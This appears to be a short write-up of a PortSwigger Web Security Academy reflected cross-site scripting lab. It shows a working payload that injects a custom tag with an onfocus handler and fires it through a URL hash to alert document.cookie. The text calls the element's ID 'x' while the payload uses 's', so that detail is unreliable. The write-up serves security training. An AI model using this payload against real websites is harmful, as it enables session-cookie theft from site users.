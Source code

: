 This lab blocks all HTML tags except custom ones.

To solve the lab, perform a [cross-site scripting](https://portswigger.net/web-security/cross-site-scripting) attack that injects a custom tag and automatically alerts `document.cookie`.

# Vuln assessment

Follow a similar process as in [[Reflected XSS into HTML context with most tags and attributes blocked]]

Start by injection a custom HTML tag:


```HTML
<script>
location = "https://0adc0090043cc6828167dea500eb003d.web-security-academy.net/?search=<custom+id%3ds+onfocus%3dalert(document.cookie)+tabindex%3d1>#s";
</script>
```

This payload works because:

This injection creates a custom tag with the ID `x`, which contains an `onfocus` event handler that triggers the `alert` function. The hash at the end of the URL focuses on this element as soon as the page is loaded, causing the `alert` payload to be called.